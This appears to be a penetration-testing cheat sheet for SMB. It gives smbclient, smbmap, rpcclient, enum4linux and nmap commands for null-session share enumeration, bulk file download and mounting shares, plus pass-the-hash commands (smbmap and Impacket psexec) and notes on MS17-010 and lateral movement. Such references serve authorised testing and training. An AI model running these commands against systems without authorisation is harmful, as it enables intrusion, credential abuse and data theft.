 # SMB Tools

## SmbClient
```
[Enumerate SMB Share NULL Session] smbclient -L \\\\<ipaddress>  #List the shares
[Enumerate SMB Share Null Session (connect)] smbclient \\\\<ipaddress>\\sharename
[Enumerate SMB Share NULL Session] smbclient -L //<ipaddress>
[Enumerate SMB Share NULL Session] smbclient --no-pass -L //<ipaddress>
[Enumerate SMB Share as User] smbclient -L //<ipaddress> -U <username> (when prompted enter pass)
[Connect to SMB Share] smbclient //<ipaddress>/<sharename> -U <username>
[Connect to SMB Share with Domain and Password] smbclient //10.129.97.122/new-site --user=<username> --workgroup=<domain.local> --password='password'
```

## SmbClient Download All Files in Directory
```
smbclient //192.168.10.100/SHARENAME --no-pass
mask ""
recurse ON
prompt OFF
lcd .
mget *
```

## SmbMap
[URL] (https://github.com/ShawnDEvans/smbmap)
```
[Enumerate SMB Shares - NULL Session] $smbmap -H <ip address>
[Enumerate SMB Shares - User] smbmap -H 10.10.10.10 -u <user> -d <domain> -p <password>
smbmap -u <username> -p <password> -H <ip address> [-P <port>] #Creds
smbmap -u <username> -p "<NT>:<LM>" -H <ip address> [-P <port>] #Pass-the-Hash
```

## SMBMap Recursive Search on Share
```
smbmap -u username -p password -d domainname.local -H 172.16.5.5 -R 'Department Shares' --dir-only
```

## RPCClient
```
rpcclient -U "" -N 192.168.10.14
```

## Enum4linux
```
enum4linux -a -v -u <username> -p <password> <ip address>
```

## NMAP
```
nmap --script smb-enum-shares -p 139,445 <ip address>
```

## Mount SMB to Linux Filesystem
```
NOTE: May need to install cifs-utils (sudo apt install cifs-utils)
1) mkdir /mnt/<sharename>
2) sudo mount -t cifs //<ipaddress>/<sharename> /mnt/<sharename>
```

## Mount SMB to Linux Filesystem (with creds)
```
1) mkdir /mnt/<sharename>
2) sudo mount -t cifs -o 'username=<username>,password=<password>' //<ip address>/sharename /mnt/<sharename>
```

## NOTES ABOUT MS17-010
```
[URL] https://www.sevenlayers.com/index.php/146-unable-to-find-accessible-named-pipe
Essentially, sometimes you just need a set of creds to launch this attack - see write-up
```

## Resource on SMB and PTH
```
See Impacket Section: ./psexec.py Administrator@192.168.10.17 -hashes "HASH:HASH"
[URL] https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/
[URL] https://eaneatfruit.github.io/2019/08/18/Offensive-Lateral-Movement/
```

## Create and publish writable share (wont work SMB3)
```
net share mysharedfolder=c:\users\user-01\shared
Grant-SmbShareAccess -Name mysharedfolder -AccountName Administrators -AccessRight Full -Force
```